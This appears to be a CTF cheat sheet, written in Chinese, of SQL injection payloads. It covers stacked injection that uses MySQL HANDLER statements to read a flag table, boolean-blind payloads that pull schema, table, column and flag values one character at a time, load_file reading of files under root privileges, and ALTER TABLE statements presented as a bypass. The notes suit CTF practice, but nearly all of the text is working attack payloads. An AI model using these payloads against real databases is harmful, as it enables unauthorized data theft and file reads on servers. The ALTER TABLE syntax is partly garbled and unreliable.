## Sql Inject

### stack

堆叠注入，`HANDLER ... OPEN`语句打开一个表，使其可以使用后续`HANDLER ... READ`语句访问，该表对象未被其他会话共享，并且在会话调用`HANDLER ... CLOSE`或会话终止之前不会关闭

```mysql
1';
HANDLER FlagHere OPEN;
HANDLER FlagHere READ FIRST;
HANDLER FlagHere CLOSE;#
```

### Boolean

```sql
if(length(database())>1,1,0)

# 查询库名
1^(ord(substr((select(group_concat(schema_name))from(information_schema.schemata)),1,1))>97)^1

# 查询表名
1^(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema)='ctf'),1,1))>97)^1

# 查询列名
1^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='flag')),1,1))>97)^1

# 查询flag
1^(ord(substr((select(group_concat(value))from(flag)),1,1))>97)^1
```

### ReadFile

Sql注入root权限直接用`load_file` 读flag

### Bypass

#### 修改已知表的列

```sql
# 添加一个列
alter table " table_name" add " column_name"  type;

# 删除一个列
alter table " table_name" drop " column_name"  type;

# 改变列的数据类型
alter table " table_name" alter column " column_name" type;

# 改列名
alter table " table_name" change " column1" " column2" type;
alter table "table_name" rename "column1" to "column2";
```
